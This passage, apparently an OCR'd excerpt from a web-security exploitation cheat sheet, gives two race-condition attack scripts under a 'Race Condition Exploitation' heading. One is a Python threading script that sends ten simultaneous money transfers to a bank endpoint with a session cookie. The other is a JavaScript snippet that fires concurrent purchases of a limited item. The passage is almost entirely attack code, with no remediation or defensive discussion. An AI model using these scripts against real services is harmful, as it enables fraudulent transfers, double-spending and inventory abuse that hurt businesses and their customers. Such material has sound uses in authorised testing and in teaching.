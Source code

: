 #### **Race Condition Exploitation**

**Bank Transfer Race Condition:**
```python
import threading
import requests

def transfer_money():
    requests.post('https://bank.com/transfer', 
                 data={
                     'from_account': '123456',
                     'to_account': '654321',
                     'amount': '1000'
                 },
                 cookies={'session': 'user_session'})

# Launch multiple simultaneous transfers
threads = []
for i in range(10):
    t = threading.Thread(target=transfer_money)
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

**Inventory Management Race Condition:**
```javascript
// Simultaneous purchase of limited item
async function buyLimitedItem() {
    const response = await fetch('/api/purchase', {
        method: 'POST',
        body: JSON.stringify({
            'item_id': 'limited_edition',
            'quantity': 1
        })
    });
    return response.json();
}

// Launch multiple simultaneous purchases
Promise.all([
    buyLimitedItem(),
    buyLimitedItem(),
    buyLimitedItem(),
    buyLimitedItem(),
    buyLimitedItem()
]);
```

### 🔄 Workflow Manipulation

